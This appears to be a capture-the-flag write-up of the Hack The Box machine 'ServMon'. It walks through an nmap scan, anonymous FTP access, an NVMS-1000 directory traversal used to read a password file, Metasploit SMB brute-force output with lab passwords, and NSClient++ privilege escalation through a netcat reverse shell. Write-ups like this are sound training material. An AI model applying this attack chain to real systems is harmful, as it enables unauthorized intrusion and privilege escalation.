


ServMon - K3nX
- This Machine name is Servmon . This is Easy Window Machine and ipaddress is 10.10.10.184

Nmap
# cat servmon.nmap
Nmap scan report for 10.10.10.184
Host is up (0.46s latency).
Not shown: 991 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_ SYST: Windows_NT
22/tcp open ssh OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
| 2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| 256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_ 256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp open http
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 404 Not Found
| Content-type: text/html
| Content-Length: 0
| Connection: close
| AuthInfo:
| GetRequest, HTTPOptions, RTSPRequest:
| HTTP/1.1 200 OK
| Content-type: text/html
| Content-Length: 340
| Connection: close
| AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5666/tcp open tcpwrapped
6699/tcp open napster?
8443/tcp open ssl/https-alt
| fingerprint-strings:
| FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:
| HTTP/1.1 404
| Content-Length: 18
| Document not found
| GetRequest:
| HTTP/1.1 302
| Content-Length: 0
| Location: /index.html
| workers
|_ jobs
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after: 2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 1m52s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-04-25T16:16:18
|_ start_date: N/A
As nmap result , some common port are open and ftp port allow anonymous login
FTP
I login into ftp with anonymous login , I found one folder ,name is Users
I found Confidential.txt in /Users/Nadine folder and I found Notes todo.txt file in /Users/Nathan folder
I download this two files into my local machine and I checked this

#cat Confidential.txt
Nathan,
I left your Passwords.txt file on your Desktop. Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadin
#cat Notes\ to\ do.txt
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
Web Enumeration
Nmap result shown Port 80 http is open , I open this browser and type this ip address in url bar
In this time I show the webpage like this

I found this NVMS 1000 in this webpage
I searched this in google and I found one useful link , It has Directroy Traversal Vuln
NVMS 100 - Directroy Traversal
After reading this POC in previous link , I know what should i do
Previous FTP phase , Confidential.txt said user nadine left password file in user nathan desktop
I used burpsuite to intercept this index page and I change passwordfile location instead of /Pages/login.htm
After this I got some pasword , I save all of this password in one file and I gave this file name as password.txt
I used Metasploit to find valid password
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.10.10.184:445 - 10.10.10.184:445 - Starting SMB login bruteforce
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:B3WithM30r4ga1n5tMe',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:L1k3B1gBut7s@W0rk',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:0nly7h3y0unGWi11F0l10w',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:IfH3s4b0Utg0t0H1sH0me',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nathan:Gr4etN3w5w17hMySk1Pa5$',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nadine:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nadine:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445 - 10.10.10.184:445 - Failed: '.\nadine:B3WithM30r4ga1n5tMe',
[+] 10.10.10.184:445 - 10.10.10.184:445 - Success: '.\nadine:L1k3B1gBut7s@W0rk'
[*] 10.10.10.184:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_login)>
User
- I login with this username and password into smb but I found nothing. In this time,I think port 22 is open,
- I should login into ssh with this password , It may be but not sure
I tried to login into ssh with this password , Luckily my login is successful with this password
- I got useraccess and userflag
After 15 min spending in root part enumeration , I found one interesting , This is NSClient++
I found one useful link about this NSClient++ here
Privileges Escalation
nadine@SERVMON C:\Program Files\NSClient++> nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
- I Login with this NSCClient web page but this is 403 not allow
- In this time , I checked this nsclient config file , this is only allow for 127.0.0.1(localhost)
- I need to do port forwarding. I used ssh port forwardingto my localhost
- Ohh Luckily It work
- We need nc.exe and evil.bat to perform fully privileges escalation
- I used scp to transfer nc.exe file to attacking machine
- I know , I can use command line instead of GUI for add external script in this NSClient++
- Yeah , I used command line instead of GUI , This is admin password ew2x6SsGTxjRwXOT
- In other tab of my terminal , I used netcat to listen
Boom I got a reverse shell connection from attacking machine - Finally I got a shell as nt authority\system
- You can read root flag at C:\Users\Administrator\Desktop
- Finally I owned this machine
Thank a lot for spending your valuable time on my writeup
I hope you enjoy this
Hope you learned something :)